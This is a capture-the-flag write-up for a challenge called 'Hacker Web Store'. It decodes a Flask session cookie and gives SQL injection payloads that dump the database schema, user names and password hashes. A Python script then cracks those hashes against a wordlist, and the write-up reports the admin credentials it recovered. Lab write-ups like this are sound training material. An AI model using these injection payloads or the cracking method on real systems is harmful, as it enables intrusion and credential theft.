




## Title

Hacker Web Store

## Description

Author: @Jstith

Welcome to the hacker web store! Feel free to look around at our wonderful products, or create your own to sell.

This challenge may require a local password list, which we have provided below. Reminder, bruteforcing logins is not necessary and against the rules. 

## Solution

The website title says "flask" so it might be a flask app.

Thew website has three functionalities:
- Show products(Cant interact)
- Create Product(Can interact)
- Admin Login(can interact)

It has two cookies:
- `.AspNetCore.Antiforgery.VyLW6ORzMgk`
- `session`

The following cookie: `.eJxNy0kKgDAMQNG7ZF2sAxX1MiG1KRaHqslOvLtdunzw_wMYb5YFpkibsIHg8SQtBrvkne2s0QqLpHxgICVPRbbn2g1NN7q2nzH4Sq4tKYMBzSsfZf4H8H7_RiEE.ZlBw3w.RWyIlcSY7MHoPP0H7N6L-BKb4hc`

Has the following result when decoded from base64 (URL Safe) and zlib inflate:

`{"_fresh":false,"db_path":"/home/ctf/session_databases/6e058139526c_db.sqlite","token":"6e058139526c"}`

This is a flask session cookie. Trying the characters `'` on the create product functionality we get an error in the cookie:

Payload: `name=s&price='&desc=s`
Cookie: `flask-unsign -d -c ".eJxljsFKxEAMhl8l5DK7MFjYBRfqyUMPgqjY1Yu7lLST2mI7s04iKMu-u-lN8JKPH_7kyxmbfiIZWLB8OyOoAWcWoXdGj1XOKcMYoVZSnjlqCXcPdfW8N-wf4Smn8NWpwCrSzB5OeewMgaVbw-vt_UtVw8qJ8-DcMsStb_B48f9NkSnDAeWAJchPVPoGXuTWPnp7MrMMWPY0CXsMbXMitYzFkGYuOu0LsVNjik0gpZYsFe12y7uw22yuQ9-E9ko-p1EXl6YPjrb8t4CXX5DEVYM.ZlBWqg.DDnZHUfpnHE6gjnklNT1nlf088c"`



Note: One way to look at a flask session cookie is with a Python binary called flask-unsign that we can install using `pip3 install flask-unsign`

Payload to get the tables info: `', (SELECT group_concat(sql) FROM sqlite_master)); --`



Payload to get the users from the users table: `', (SELECT group_concat(name) FROM users)); --`



Payload to get the users from the users table: `', (SELECT group_concat(password) FROM users)); --`



With the users and the passwords hashes we can build a simple script to iterate through the list provided(password_list.txt).

```py
from werkzeug.security import generate_password_hash, check_password_hash

hashes = [
    'pbkdf2:sha256:600000$m28HtZYwJYMjkgJ5$2d481c9f3fe597590e4c4192f762288bf317e834030ae1e069059015fb336c34',
    'pbkdf2:sha256:600000$GnEu1p62RUvMeuzN$262ba711033eb05835efc5a8de02f414e180b5ce0a426659d9b6f9f33bc5ec2b',
    'pbkdf2:sha256:600000$MSok34zBufo9d1tc$b2adfafaeed459f903401ec1656f9da36f4b4c08a50427ec7841570513bf8e57',
]

with open('password_list.txt', 'r') as file:
    for password in file.readlines():
        password = password.strip()

        cnt = 0
        for hashed in hashes:
            if check_password_hash(hashed, password):
                print(f'[FOUND] {hashed} -> {password}')
            cnt += 1
```

Credentials found: `website_admin_account:ntadmin1234`

